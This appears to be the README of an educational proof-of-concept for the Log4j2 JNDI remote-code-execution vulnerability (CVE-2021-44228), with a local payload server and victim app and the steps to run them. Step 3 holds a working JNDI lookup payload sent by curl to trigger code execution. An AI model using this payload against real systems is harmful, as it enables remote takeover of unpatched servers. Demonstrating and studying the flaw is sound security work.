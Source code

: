 # Log4j2 RCE Vulnerability POC

A bare minimum proof-of-concept for Log4j2 JNDI Remote-Code-Execution vulnerability (CVE-2021-44228). This is intended
for educational purposes to help people who are not security researchers to understand how it works and how large the
impact is.

## Prerequisites

- JDK 1.8

Note: JDK 1.8 is required for `payload-server` to compile, but the `victim-app` is vulnerable up until JDK 15 because the Nashorn engine was removed in JDK 15.

## To Test

1. Start the `payload-server` by running:

```console
$ ./gradlew runPayloadServer
```

2. Open a new terminal session then start the `victim-app`:

```console
$ ./gradlew runVictimApp
```

3. Run `curl http://localhost:8080/hello?name=%24%7Bjndi%3Armi%3A%2F%2F127.0.0.1%3A8099%2Fexec%7D` to trigger the RCE.
4. To proof the remote code has been executed, check the console log of `victim-app`. You should see an unintended log
   has been printed on the screen.
